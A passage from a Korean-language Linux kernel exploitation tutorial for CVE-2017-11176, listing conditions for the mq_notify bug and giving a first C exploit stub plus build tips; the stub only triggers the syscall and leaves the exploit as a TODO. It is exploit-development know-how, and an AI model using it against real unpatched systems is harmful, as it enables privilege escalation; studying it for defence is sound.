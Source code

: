 1. NULL이 아닌 *u\_notification* 인자를 제공
2. *u\_notification.sigev\_notify* 를 *SIGEV\_THREAD*로 설정
3. *notification.sigev\_value.sival\_ptr* 이 가리키는 값은 무조건 유효한 *NOTIFY\_COOKIE\_LEN*(=32) 바이트의 *읽을 수 있는 유저 영역*  주소여야 한다 ([include/linux/mqueue.h] 참고).

### The first exploit stub

이제 익스플로잇 코딩을 시작하고 모든 것이 괜찮다는 것을 검증해보자.

```c
    /*
     * CVE-2017-11176 Exploit.
     */

    #include <mqueue.h>
    #include <stdio.h>
    #include <string.h>


    #define NOTIFY_COOKIE_LEN (32)


    int main(void)
    {
      struct sigevent sigev;
      char sival_buffer[NOTIFY_COOKIE_LEN];

      printf("-={ CVE-2017-11176 Exploit }=-\n");

      // initialize the sigevent structure
      memset(&sigev, 0, sizeof(sigev));
      sigev.sigev_notify = SIGEV_THREAD;
      sigev.sigev_value.sival_ptr = sival_buffer;

      if (mq_notify((mqd_t)-1, &sigev))
      {
        perror("mqnotify");
        goto fail;
      }
      printf("mqnotify succeed\n");

      // TODO: exploit

      return 0;

    fail:
      printf("exploit failed!\n");
      return -1;
    }
```

익스플로잇 개발을 쉽게 하기 위해 *Makefile* 를 사용하는 것을 추천한다(build-and-run scripts are always handy). 컴파일을 하기 위해선 *mq\_notify* 를 사용하기 위해 필요한 **-lrt** 옵션을 통해 바이너리를 연결(link)해야 할 것이다. 추가적으로 gcc가 우리의 코드를 재배열하는 것을 방지하기 위해 **-O0** 옵션을 사용하는 것을 권장한다(버그를 디버깅하기 어려워질 수 있다).
